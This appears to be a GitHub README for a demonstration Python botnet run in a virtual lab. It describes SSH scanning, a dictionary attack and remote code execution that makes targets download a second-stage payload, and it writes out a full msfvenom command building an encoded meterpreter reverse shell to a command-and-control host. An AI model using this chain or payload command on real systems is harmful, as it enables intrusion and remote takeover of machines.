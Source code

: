 # freshbot
Demonstration of a simple botnet written in Python.<br>
<br>
"scan_drop.py" scans virtual network, if it finds a node with ssh<br>
running on it performs a dictionary attack. If the credentials are correctly<br>
provided, RCE directs target to download 2nd payload & execute.<br>
2nd stage payload is a reverse meterpreter shell to C&C.
<br>
<h3>Environment & Setup</h3>
1. Our Attack machine: <h4>Linux kali 4.16.0-kali2-amd64</h4>
2. Create Web Server: <h4>192.168.203.1/evil_file</h4>
3. 4 target ssh servers on the same virtual network: <h4>ubuntu-16.04.5-desktop-amd64</h4>
&nbsp;&nbsp;&nbsp;192.168.203.150&nbsp;&nbsp;user: fresh1 &nbsp;pass: fresh1<br>
&nbsp;&nbsp;&nbsp;192.168.203.151&nbsp;&nbsp;user: fresh2 &nbsp;pass: fresh2<br>
&nbsp;&nbsp;&nbsp;192.168.203.152&nbsp;&nbsp;user: fresh3 &nbsp;pass: fresh3<br>
&nbsp;&nbsp;&nbsp;192.168.203.153&nbsp;&nbsp;user: fresh4 &nbsp;pass: fresh4<br>
<br>
4. Create payload: <h4>msfvenom --payload linux/x86/meterpreter_reverse_tcp LPORT=443 LHOST=192.168.203.1 -e shikata_ga_nai -f elf -a x86 -o evil_file</h4>
5. msf5 > <h4>exploit/multi/handler module</h4>
6. scan_drop.py <h4>Scan, Dictionary Attack, RCE.</h4>
